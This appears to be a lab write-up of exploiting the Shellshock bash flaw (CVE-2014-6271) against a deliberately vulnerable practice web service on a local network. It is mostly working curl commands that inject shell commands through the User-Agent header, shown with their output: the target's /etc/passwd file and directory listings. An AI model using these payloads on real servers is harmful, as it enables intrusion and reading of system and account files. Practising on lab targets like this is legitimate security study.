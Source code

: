 So there is a web service that is vulnerable to a specific type of attack, that can be accessed [here](https://github.com/hmlio/vaas-cve-2014-6271)

I ran the attack command:

```shell
root@ubuntu8:~/bonus/vaas-cve-2014-6271# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://192.168.1.127:8080/cgi-bin/stats

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

So these are the contents of the passwd file on the `192.168.1.127` machine. Running the `whoami` command on the target machine told me that I was logged in as the `www-data` user. I looked around the filesystem:

```shell
root@ubuntu8:~# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls;'" http://192.168.1.127:8080/cgi-bin/stats

stats
root@ubuntu8:~# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /;'" http://192.168.1.127:8080/cgi-bin/stats

bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
selinux
srv
sys
tmp
usr
var
root@ubuntu8:~# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /home;'" http://192.168.1.127:8080/cgi-bin/stats

grinch
```